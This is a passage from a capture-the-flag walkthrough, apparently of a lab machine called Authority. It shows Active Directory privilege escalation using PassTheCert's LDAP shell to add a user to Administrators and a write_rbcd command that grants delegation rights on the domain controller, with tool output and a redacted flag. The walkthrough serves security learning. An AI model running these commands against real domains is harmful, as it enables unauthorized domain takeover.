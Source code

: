 ```
 grant_control target grantee - Grant full control of a given target object (sAMAccountName) to the grantee (sAMAccountName).
 set_dontreqpreauth user true/false - Set the don't require pre-authentication flag to true or false.
 set_rbcd target grantee - Grant the grantee (sAMAccountName) the ability to perform RBCD to the target (sAMAccountName).
 start_tls - Send a StartTLS command to upgrade from LDAP to LDAPS. Use this to bypass channel binding for operations necessitating an encrypted channel.
 write_gpo_dacl user gpoSID - Write a full control ACE to the gpo for the given user. The gpoSID must be entered surrounding by {}.
 exit - Terminates this session.

```

The one that works is `add_user_to_group`:

```
# add_user_to_group svc_ldap administrators
Adding user: svc_ldap to group Administrators result: OK

```

I’ll reconnect with a new Evil-WinRM shell as svc\_ldap, and now it has the administrators group:

![image-20231127142325929](https://0xdf.gitlab.io/img/image-20231127142325929.png)

That’s enough to read `root.txt`:

```
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
367eb8b3************************

```

#### PassTheCert -> TGT \[Path 2\]

The intended way to exploit this is to use the `write_rbcd` action to give the fake computer `0xdf$` delegration rights over the DC:

```
oxdf@hacky$ python PassTheCert/Python/passthecert.py -action write_rbcd -delegate-to 'AUTHORITY$' -delegate-from '0xdf$' -crt administrator.crt -key administrator.key -domain authority.htb -dc-ip 10.10.11.222
Impacket v0.10.1.dev1+20230608.100331.efc6a1c3 - Copyright 2022 Fortra

[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] 0xdf$ can now impersonate users on AUTHORITY$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     0xdf$        (S-1-5-21-622327497-3269355298-2248959698-11602)

```

I’ll make sure my clock is in sync with Authority:

```
oxdf@hacky$ sudo ntpdate 10.10.11.222
27 Nov 18:28:15 ntpdate[588490]: step time server 10.10.11.222 offset -14216.802932 sec

```
